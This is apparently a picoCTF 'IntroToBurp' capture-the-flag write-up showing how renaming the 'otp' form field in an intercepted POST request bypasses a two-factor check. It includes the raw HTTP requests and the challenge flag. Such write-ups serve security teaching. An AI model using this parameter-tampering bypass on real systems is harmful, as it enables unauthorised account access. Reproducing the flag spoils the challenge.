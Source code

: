 # IntroToBurp

## Description

Additional details will be available after launching your challenge instance.

## Hints

* Try using burpsuite to intercept request to capture the flag.

* Try mangling the request, maybe their server-side code doesn't handle malformed requests very well.

## Walkthrough

Once the instance has loaded and we visit the website we'll see a registration form.

![Registration Form](./registration-form.png "Registration form on homepage of website")

We can fill the form out with dummy values and submit the form, which will redirect us to ```/dashboard``` where we'll have to input a two-factor authentication code.

![Two-Factor Authentication Code Form](./two-factor-authentication-code.png "Two-factor authentication code form for website")

If we try to submit dummy values we'll get an "invalid otp" message. We can also see from the POST request that our value is stored in a key called "otp".


```http
POST /dashboard HTTP/1.1
Host: titan.picoctf.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://titan.picoctf.net
Connection: close
Referer: http://titan.picoctf.net/dash

otp=12345
```

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
Content-Type: text/html; charset=utf-8
Content-Length: 11
Vary: Cookie
Connection: close

Invalid OTP
```

Changing the key name from "otp" to anything else will bypass the two-factor authentication and redirect us to the flag.

```http
POST /dashboard HTTP/1.1
Host: titan.picoctf.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://titan.picoctf.net
Connection: close
Referer: http://titan.picoctf.net/dash

fake=12345
```

> Welcome, test you sucessfully bypassed the OTP request. Your Flag: picoCTF{#0TP_Bypvss_SuCc3$S_b3fa4f1a}

```picoCTF{#0TP_Bypvss_SuCc3$S_b3fa4f1a}```

